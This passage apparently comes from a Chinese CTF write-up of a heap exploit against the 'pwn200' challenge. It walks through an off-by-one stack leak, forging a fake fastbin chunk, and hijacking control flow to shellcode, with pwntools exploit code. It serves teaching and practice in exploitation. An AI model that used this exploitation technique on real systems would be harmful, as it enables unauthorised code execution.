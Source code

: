 ```python
	main("node3.buuoj.cn","25309",0,0)
```

### exp讲解
### 利用思路
1. 将shellcode.ljust(48,’a’)输入到name中，通过`off-by-one`漏洞打印出来main函数栈底，通过上面结构图能够算出shellcode的地址，选取一个处在money中的位置作为fake_chunk
2. 在money中伪造堆块size，在id里面输入的是下一个堆块的size(大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem`)，同时通过堆溢出漏洞覆盖掉dest
3. free掉刚才伪造的堆块，使其进入fastbin
4. 申请堆块，申请出来以后还是在老位置。
5. 输入数据到刚申请的堆块中，覆盖掉leave指令，让之后的rip指向shellcode，完成劫持，执行shellcode。

> 注意：
>
> 在执行gdb.attach附加调试时，会将栈的地址随机化。以下讲解的内存地址是程序直接执行时的内存地址
>

#### 程序加载及程序输入输出自动化
```python
from pwn import *
elf = ELF("./pwn200")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
sh = 0

def init(leak):
	sh.sendafter("who are u?\n",leak)

def fake(payload):
	sh.sendlineafter("give me your id ~~?","31")
	sh.sendafter("give me money~",payload)

def checkin(idx,payload):
	sh.sendlineafter("your choice : ","1")
	sh.sendlineafter("how long?\n",str(idx))
	sh.sendafter(str(idx)+'\n',payload)

def checkout():
	sh.sendlineafter("your choice : ","2")
```

#### 泄露sub_400A8E的栈底
```c
	#Step 1: leaking $RBP
	#gdb.attach(sh)
	init('a'*0x30)	#leak reg_RBP to caculate &shellcode
	#start leaking
	sh.recvuntil("a"*0x30)
	reg_RBP = u64(sh.recv(6).ljust(8,"\x00"))
	success("RBP register ===> "+hex(reg_RBP))
    #rbp=0x7fffffffdda0
```
